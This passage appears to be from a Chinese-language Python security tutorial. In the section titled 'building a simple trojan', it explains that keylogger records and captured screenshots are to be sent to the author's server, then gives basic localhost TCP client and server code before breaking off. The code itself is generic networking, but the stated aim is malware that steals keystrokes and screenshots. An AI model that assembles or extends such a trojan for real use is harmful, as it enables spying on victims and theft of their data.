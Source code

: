 看看效果如何：

![enter image description here](http://drops.javaweb.org/uploads/images/5db0201479e967f8457776bc5cce8a0b31d30455.jpg)

0x03 综合运用：完成一个简易木马
=====

无论是keylogger记录下的内容，还是screenshotter截获的图片，只存在客户端是没有太大意义的，我们需要构建一个简单server和client端来进行通信，传输记录下的内容到我们的服务器上。

编写一个简单的TCPclient

```
# -*- coding: utf-8 -*- 
import socket

# 目标地址IP/URL及端口
target_host = "127.0.0.1"
target_port = 9999

# 创建一个socket对象
client = socket.socket(socket.AF_INET,socket.SOCK_STREAM)

# 连接主机
client.connect((target_host,target_port))

# 发送数据
client.send("GET / HTTP/1.1\r\nHOST:127.0.0.1\r\n\r\n")

# 接收响应
response = client.recv(4096)

print response

```

编写一个简单的TCPserver

```
# -*- coding: utf-8 -*- 
import socket
import threading

# 监听的IP及端口
bind_ip = "127.0.0.1"
bind_port = 9999

server = socket.socket(socket.AF_INET,socket.SOCK_STREAM)

server.bind((bind_ip,bind_port))

server.listen(5)

print "[*] Listening on %s:%d" % (bind_ip,bind_port)

def handle_client(client_socket):

    request = client_socket.recv(1024)

    print "[*] Received:%s" % request

    client_socket.send("ok!")

    client_socket.close()

while True:

```